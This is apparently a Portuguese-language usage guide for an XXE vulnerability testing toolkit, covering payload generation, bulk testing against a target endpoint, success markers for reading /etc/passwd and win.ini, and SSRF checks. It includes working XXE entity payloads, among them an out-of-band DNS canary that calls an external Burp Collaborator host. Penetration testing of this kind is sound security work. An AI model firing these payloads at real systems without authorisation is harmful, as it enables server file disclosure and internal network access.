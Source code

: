 1. Primeiro, gere payloads com diferentes codificações usando o `xxe_payload_generator.py`:
   ```bash
   python xxe_payload_generator.py --output payloads
   ```

2. Em seguida, teste todos os payloads contra o alvo:
   ```bash
   python xxe_tester.py https://alvo.com/endpoint ./payloads -v -o resultados.json
   ```

3. Analise os resultados para identificar payloads bem-sucedidos

4. Refine seus testes utilizando apenas os payloads que tiveram sucesso:
   ```bash
   # Copie apenas os payloads bem-sucedidos para uma nova pasta
   mkdir payloads_sucesso
   cp payloads/payload_bem_sucedido.xml payloads_sucesso/
   
   # Execute novos testes com parâmetros diferentes
   python xxe_tester.py https://alvo.com/outro_endpoint ./payloads_sucesso -ds "dados_confidenciais"
   ```

5. Se necessário, personalize os payloads bem-sucedidos para extrair informações específicas

## Detecção Eficaz de Vulnerabilidades XXE

### Padrões para detecção de sucesso

Para identificar com precisão quando um payload XXE foi bem-sucedido, use o parâmetro `-ds` (detect-success) com strings que indicam que a vulnerabilidade foi explorada:

- Para leitura de `/etc/passwd`: `-ds "root:"`
- Para leitura de `win.ini`: `-ds "[fonts]"` 
- Para SSRF: `-ds "Internal Server"` ou outro conteúdo exclusivo do serviço interno
- Para detecção genérica: busque por padrões incomuns nas respostas

### Técnicas avançadas

- **Canário DNS**: Use payloads que forçam consultas DNS para confirmar a execução:
  ```xml
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://seu-dominio-canario.burpcollaborator.net"> ]>
  ```

- **Tempo de resposta**: Para sistemas que não retornam conteúdo, use timeouts:
  ```xml
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://localhost:9999/delay10seconds"> ]>
  ```

## Integração com Outras Ferramentas

### Com Burp Suite

1. Configure o Burp Suite como proxy
2. Execute o XXE Tester com o proxy configurado:
   ```bash
   export HTTPS_PROXY="http://127.0.0.1:8080"
   python xxe_tester.py https://alvo.com/endpoint ./payloads
   ```
